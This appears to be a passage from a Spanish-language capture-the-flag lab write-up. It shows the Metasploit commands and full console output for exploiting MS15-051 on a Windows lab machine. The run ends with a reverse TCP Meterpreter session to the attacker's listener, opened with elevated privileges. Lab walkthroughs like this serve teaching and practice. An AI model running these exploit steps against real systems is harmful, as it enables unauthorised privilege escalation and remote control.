 Como resumen, se hará: 
```
use exploit/windows/local/ms15_051_client_copy_images
set session 1                                                   #la sesión inicial 1 de meterpreter
set LHOST tun0
run
```

Extendido, es:
```shell-session
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms15_051_client_copy_images

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp


msf6 exploit(windows/local/ms15_051_client_copy_image) > show options

Module options (exploit/windows/local/ms15_051_client_copy_image):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     46.101.239.181   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86


msf6 exploit(windows/local/ms15_051_client_copy_image) > set session 1

session => 1


msf6 exploit(windows/local/ms15_051_client_copy_image) > set LHOST tun0

LHOST => tun0


msf6 exploit(windows/local/ms15_051_client_copy_image) > run

[*] Started reverse TCP handler on 10.10.14.26:4444 
[*] Launching notepad to host the exploit...
[+] Process 844 launched.
[*] Reflectively injecting the exploit DLL into 844...
[*] Injecting exploit into 844...
[*] Exploit injected. Injecting payload into 844...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Meterpreter session 2 opened (10.10.14.26:4444 -> 10.10.10.15:1031) at 2020-09-03 10:35:01 +0000

```